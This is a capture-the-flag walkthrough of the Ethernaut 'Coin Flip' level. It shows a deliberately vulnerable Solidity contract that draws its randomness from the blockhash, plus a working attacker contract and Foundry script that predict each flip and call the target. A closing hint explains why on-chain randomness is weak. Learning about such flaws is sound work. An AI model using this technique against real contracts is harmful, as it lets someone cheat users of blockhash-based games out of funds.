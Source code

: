 # Level 3 - Coin Flip ⏺⏺

{% embed url="https://ethernaut.openzeppelin.com/level/3" %}

### Level Setup

{% hint style="info" %}
This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.
{% endhint %}

### Level Contract

{% embed url="https://github.com/OpenZeppelin/ethernaut/blob/master/contracts/contracts/levels/CoinFlip.sol" %}

{% code lineNumbers="true" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```
{% endcode %}

### Exploit

This exploit is possible because the coinflip isn't random but deterministic. By copying the same logic that's used to determine the result and executing it in the same block just before guessing, you can guess correctly every time.

1. Run the same calculation and use the result to call the CoinFlip contract already deployed.

{% tabs %}
{% tab title="Anvil" %}
```bash
make anvil-exploit-level-3

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}

{% tab title="Holesky" %}
```bash
make holesky-exploit-level-3

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Exploit Contract" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/main/src/Level3.sol" %}

{% code title="src/Level3.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ICoinFlip {
    function flip(bool _guess) external returns (bool);
}

// ================================================================
// │                      LEVEL 3 - COIN FLIP                     │
// ================================================================
contract CoinFlipGuess {
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    function flip(address _targetContractAddress) public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        return ICoinFlip(_targetContractAddress).flip(side);
    }
}
```
{% endcode %}
{% endtab %}

{% tab title="Exploit Deployment Script" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/main/script/Level3.s.sol" %}

{% code title="script/Level3.s.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.18;

import {Script, console} from "forge-std/Script.sol";
import {HelperFunctions} from "script/HelperFunctions.s.sol";
import {CoinFlipGuess} from "../src/Level3.sol";

interface ICoinFlip {
    function consecutiveWins() external returns (uint256);
}

// ================================================================
// │                      LEVEL 3 - COIN FLIP                     │
// ================================================================
contract Exploit is Script, HelperFunctions {
    function run() public {
        address targetContractAddress = getInstanceAddress();
        ICoinFlip targetContract = ICoinFlip(targetContractAddress);

        if (targetContract.consecutiveWins() < 10) {
            vm.startBroadcast();

            CoinFlipGuess coinFlipGuess = new CoinFlipGuess();
            coinFlipGuess.flip(targetContractAddress);

            vm.stopBroadcast();
        } else {
            revert("Already won 10 times");
        }

        console.log("consecutiveWins: %s", targetContract.consecutiveWins());
    }
}
```
{% endcode %}
{% endtab %}
{% endtabs %}

2. Submit instance... 🥳

### Completion Message

{% hint style="info" %}
Generating random numbers in solidity can be tricky. There currently isn't a native way to generate them, and everything you use in smart contracts is publicly visible, including the local variables and state variables marked as private. Miners also have control over things like blockhashes, timestamps, and whether to include certain transactions - which allows them to bias these values in their favor.

To get cryptographically proven random numbers, you can use [Chainlink VRF](https://docs.chain.link/docs/get-a-random-number), which uses an oracle, the LINK token, and an on-chain contract to verify that the number is truly random.

Some other options include using Bitcoin block headers (verified through [BTC Relay](http://btcrelay.org/)), [RANDAO](https://github.com/randao/randao), or [Oraclize](http://www.oraclize.it/)).
{% endhint %}

### Notes

* The real challenge is getting the script to run 10 times.
* This was hard to do in foundry with a real blockchian, but would have been easy to test on anvil simply by advancing the block by one then calling it again.
